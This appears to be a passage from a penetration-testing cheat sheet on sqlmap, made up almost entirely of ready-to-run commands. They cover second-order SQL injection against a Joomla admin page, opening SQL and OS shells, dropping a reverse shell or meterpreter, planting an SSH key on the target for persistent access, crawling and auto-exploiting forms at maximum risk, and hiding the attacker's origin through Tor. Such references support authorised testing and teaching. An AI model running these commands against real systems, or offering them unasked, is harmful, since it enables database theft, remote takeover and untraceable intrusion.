 ```powershell
python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs
```

### Shell

```powershell
SQL Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --sql-shell

Simple Shell
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-shell

Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1"  -p id --os-pwn

SSH Shell by dropping an SSH key
python sqlmap.py -u "http://example.com/?id=1" -p id --file-write=/root/.ssh/id_rsa.pub --file-destination=/home/user/.ssh/
```

### Crawl a website with SQLmap and auto-exploit

```powershell
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```

### Using TOR with SQLmap

```powershell
sqlmap -u "http://www.target.com" --tor --tor-type=SOCKS5 --time-sec 11 --check-tor --level=5 --risk=3 --threads=5
```

### Using a proxy with SQLmap

```powershell
sqlmap -u "http://www.target.com" --proxy="http://127.0.0.1:8080"
```

### Using Chrome cookie and a Proxy

```powershell
sqlmap -u "https://test.com/index.php?id=99" --load-cookie=/media/truecrypt1/TI/cookie.txt --proxy "http://127.0.0.1:8080"  -f  --time-sec 15 --level 3
```
